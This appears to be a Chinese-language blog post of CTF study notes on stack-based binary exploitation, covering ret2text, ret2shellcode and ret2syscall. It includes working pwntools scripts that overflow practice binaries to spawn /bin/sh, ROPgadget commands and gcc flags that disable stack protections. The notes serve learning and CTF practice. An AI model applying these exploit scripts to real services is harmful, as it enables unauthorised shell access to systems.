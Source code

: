 ```yaml
---
layout: post
title: pwn学习笔记_1
categories: ctf
description: pwn基础
keywords: pwn
---
```

# pwn学习笔记

## 前置知识

程序调用栈：在用户空间最高地址的地方。从高地址向低地址增长

<img src="https://img1.imgtp.com/2023/09/14/Yc8HtShM.png" alt="栈位置" style="zoom:50%;" />

push 目标值压栈且SP指针-1字长(32bit/64bit)

pop目标值出栈且SP指针+1字长(32bit/64bit)

栈顶(最下面)对应的函数是正在执行的函数

bp指向当前栈帧的栈底，sp指向当前栈帧的栈顶

而当前栈底，也就是bp指向的位置，存放的是上一帧的栈底，因为返回时要让bp回到上一个函数栈底

ret就会pop到eip

bp上一个才是返回地址

![返回变化](https://img1.imgtp.com/2023/09/14/BI1eKKoU.png)

ctrl+shift+c复制 xor eax,eax; 把eax清空  (判断两个数是否为不一样的，eax存返回值，故此操作为清零eax)

在IDA中按G进行跳转地址  找/bin/sh按shift+Fn+F12后ctrl+F进行查找

## 1.ret2text

输入任意字符后

![调试](https://img1.imgtp.com/2023/09/14/QfmqCOsG.png)

可以看到eax也就是输入区域与ebp相差0x10--16字符 还需要覆盖ebp的4个字节(32位) 接着就可以输入想要返回的地址

![ret2text](https://img1.imgtp.com/2023/09/14/yVXGmMrm.png)

## 2.ret2shellcode(BSS写入)

checksec --file=ret2text

<img src="https://img1.imgtp.com/2023/09/14/tK1HvhZc.png" alt="checksec" style="zoom:67%;" />

只要ASLR打开就不可以在栈上写

输入的shellcode存在于栈或堆或bss缓冲区

bss默认有可执行权限 栈是否可执行看NS保护是否打开

ASLR地址随机化--每次载入栈地址都不同

/proc/sys/kernel/randomize_va_space

cat /proc/sys/kernel/randomize_va_space可以看到虚拟机地址随机化的程度

print(asm(shellcraft.sh()))转机器码 默认32位 要是攻击64位的print(asm(shellcraft.amd64.sh()))

查看虚拟内存的空间分布 看可读可写可执行区域

![vmmap](https://img1.imgtp.com/2023/09/14/BDkthcwJ.png)

下面看代码

<img src="https://img1.imgtp.com/2023/09/14/ZNatApOf.png" alt="主函数" style="zoom:67%;" />

函数的意思是将s中0x64长度拷入buf2中

虽然栈是可执行的但是ASLR默认打开，不知道远端服务器栈的位置无法执行可执行代码(写进去是可以的)

bss是固定的，可以获取地址且与远程一致   --》  使用shellcraft工具在bss代码段调用系统函数

可以看到，给出字符距离bp的长度

<img src="https://img1.imgtp.com/2023/09/14/hJjDemOL.png" alt="eg" style="zoom:67%;" />

如果两者出现错误，遵循动态调试的结果

下面进行动态调试

进行gdb调试，get之后写入栈中，查看栈的地址

<img src="https://img1.imgtp.com/2023/09/14/imeHfzU5.png" alt="查看栈" style="zoom:67%;" />

使用python3计算可得ebp-eax=108 与0x64不同，按照动态调试为准

108个垃圾数据加上ebp指针占4字节(32位)

下面书写payload

其中ljust是指左端数据不变一直向右补充某个数据(b'A')

```python
from pwn import *
io = process("./ret2shellcode")
#io = remote("106.54.129.202",10003)
buf2=0x804A080
payload=asm(shellcraft.sh()).ljust(112,b'A')+p32(buf2)
io.sendline(payload)
io.interactive()
```

![image-20230916165738954](C:\Users\李佳艺\AppData\Roaming\Typora\typora-user-images\image-20230916165738954.png)

![image-20230916171403860](C:\Users\李佳艺\AppData\Roaming\Typora\typora-user-images\image-20230916171403860.png)

## 3.ret2stack

canary防护措施 在ebp之前，先溢出到canary处再溢出到返回数据，由于溢出的是垃圾数据，将之前canary中的随机数据更改，canary检测到更改后就会退出当前程序。

```gcc
gcc -fno-stack-protector -z execstack -no-pie -g -o 执行文件 执行文件.c 
```

-fno-stack-protector 关闭canary      -z execstack 获得可执行权限     -no-pie关掉pie

## 4.ret2syscall(静态链接)

返回导向编程

ROPgadget --binary ret2syscall --only "pop|ret"

跟上要寻找的二进制文件 和要找的功能pop和ret

ROP动态过程

没有一步到位的地址来调用shell，在栈中写了一系列返回地址，在代码段连续跳转，所有gadget执行完后，最终系统调用本质上执行的kernel的代码

我们需要做的工作是

**mov eax, 0xb	mov ebx, [“/bin/sh”] 	mov ecx, 0	mov edx, 0	int 0x80	=>execve("/bin/sh",NULL,NULL)**

eax=0xb是因为系统调用号是0xb

先寻找有pop和ret指令的

![ROPgadget](https://img1.imgtp.com/2023/09/16/tAdMk9g5.png)

在IDA中按G进行跳转地址  找/bin/sh按shift+Fn+F12后ctrl+F进行查找

从局部变量写入pop的值和下一个返回地址和下一个pop的值和其他填充直到覆盖返回地址为第一个pop的地址

```bash
ROPgadget --binary ret2syscall --only "pop|ret" |grep eax
```

输出所有含有eax的pop,ret指令

![ROP1](https://img1.imgtp.com/2023/09/17/Q1Ql6xNY.png)

同样输出ebx的

![ROP2](https://img1.imgtp.com/2023/09/17/DF16uGre.png)

再查找int80的位置

```bash
ROPgadget --binary ret2syscall --only "int"
```

![ROP3](https://img1.imgtp.com/2023/09/17/LfgTN6Ov.png)

再寻找/bin/sh

从IDA中寻找

![IDA/bin/sh](https://img1.imgtp.com/2023/09/17/1NPC4ZGo.png)

或者在命令行中

```python
from pwn import *
elf = ELF("./ret2syscall")
hex(next(elf.search(b"/bin/sh")))
```

payload为

```python
from pwn import *
io = process("./ret2syscall")
eax=0xb
ebx=0x80BE408
ecx=0x0
edx=0x0
pop_eax_ret=0x80bb196
pop_edx_ecx_ebx_ret=0x806eb90
int_80h=0x8049421
io.recvline()
payload=flat([ b'A'*112,pop_eax_ret,eax,pop_edx_ecx_ebx_ret,edx,ecx,ebx,int_80h])
#flat list
io.sendline(payload)
io.interactive()
```

得到控制权

![final](https://img1.imgtp.com/2023/09/17/qryUd4zh.png)

图像加深理解：

![过程](https://img1.imgtp.com/2023/09/17/OCkAJ3Ur.png)

## 5.动态链接和静态链接

动态链接编译

gcc -fno-pie -o dytest test.c

静态链接编译

gcc -fno-pie --static -o statest test.c





